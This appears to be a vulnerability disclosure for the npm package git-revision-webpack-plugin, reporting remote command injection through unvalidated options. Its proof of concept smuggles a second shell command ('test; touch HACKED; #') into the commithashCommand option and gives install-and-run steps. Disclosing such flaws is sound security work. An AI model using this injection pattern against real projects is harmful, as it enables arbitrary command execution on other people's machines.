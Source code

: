 # :bug: Description

The `git-revision-webpack-plugin` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
var GitRevisionPlugin = require('git-revision-webpack-plugin');
var test = new GitRevisionPlugin({'gitWorkTree':'s', 'commithashCommand':'test; touch HACKED; #', 'branchCommand':'s'});
test.commithash();

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i git-revision-webpack-plugin # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
